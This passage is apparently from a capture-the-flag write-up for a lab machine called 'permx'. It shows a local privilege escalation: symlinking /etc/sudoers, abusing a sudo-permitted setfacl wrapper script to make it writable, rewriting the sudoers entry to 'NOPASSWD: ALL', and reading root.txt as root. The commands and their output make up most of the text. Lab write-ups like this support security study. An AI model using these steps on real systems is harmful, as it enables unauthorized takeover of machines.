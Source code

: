 # Check if the path is a file
if [ ! -f "$target" ]; then
    /usr/bin/echo "Target must be a file."
    exit 1
fi

/usr/bin/sudo /usr/bin/setfacl -m u:"$user":"$perm" "$target"</code></pre>

By executing these commands, you are creating a symbolic link to the sudoers file in your home directory and then using the /opt/acl.sh script to add permissions to that link

This creates a symbolic link called sudoers in your home directory that points to the file /etc/sudoers
<pre><code>mtz@permx:~$ ln -s /etc/sudoers /home/mtz/sudoers</code></pre>

I use the script to grant read and write permissions to the user mtz on the sudoers file (via the symbolic link).
If the script works correctly, mtz will be able to modify the sudoers file, allowing privilege escalation.
<pre><code>mtz@permx:~$ sudo /opt/acl.sh mtz rw /home/mtz/sudoers</code></pre>

now with nano we can modify the sudoers file and change “mtz ALL= (ALL : ALL) NOPASSWD: /opt/acl.sh” to “mtz ALL=(ALL:ALL) NOPASSWD: ALL”.

by doing this we allow mtz to execute any command 

if we did everything right we should be able to see “-> /etc/sudoers” next to the sudoers file that we created
<pre><code>mtz@permx:~$ ls -la
total 52
drwxr-x---  5 mtz  mtz   4096 Oct  2 00:27 .
drwxr-xr-x  3 root root  4096 Jan 20  2024 ..
lrwxrwxrwx  1 root root     9 Jan 20  2024 .bash_history -> /dev/null
-rw-r--r--  1 mtz  mtz    220 Jan  6  2022 .bash_logout
-rw-r--r--  1 mtz  mtz   3771 Jan  6  2022 .bashrc
drwx------  2 mtz  mtz   4096 May 31 11:14 .cache
-rw-rw-r--  1 mtz  mtz   1742 Oct  1 21:47 f23
-rw-rw-r--  1 mtz  mtz      0 Oct  1 21:24 lele.txt
drwxrwxr-x  3 mtz  mtz   4096 Oct  1 15:50 .local
lrwxrwxrwx  1 root root     9 Jan 20  2024 .mysql_history -> /dev/null
-rw-r--r--  1 mtz  mtz    807 Jan  6  2022 .profile
-rw-rw-r--  1 mtz  mtz      0 Oct  1 23:49 script.sh
-rw-r--r--  1 mtz  mtz  12288 Oct  1 23:50 .script.sh.swp
drwx------  2 mtz  mtz   4096 Jan 20  2024 .ssh
lrwxrwxrwx  1 mtz  mtz     12 Oct  2 00:27 sudoers -> /etc/sudoers
-rw-rw-r--  1 mtz  mtz      0 Oct  1 23:55 sudores
-rw-rwxr--+ 1 mtz  mtz      0 Oct  1 21:18 try.txt
-rw-r-----  1 root mtz     33 Oct  1 10:08 user.txt</code></pre>

<pre><code>root@permx:/home/mtz# cd ..
root@permx:/home# cd ..
root@permx:/# cd ..
root@permx:/# ls
bin   dev  home  lib32  libx32      media  opt   root  sbin  sys  usr
boot  etc  lib   lib64  lost+found  mnt    proc  run   srv   tmp  var
root@permx:/# cd root
root@permx:~# ls
backup  reset.sh  root.txt
root@permx:~# cat root.txt
???</code></pre>
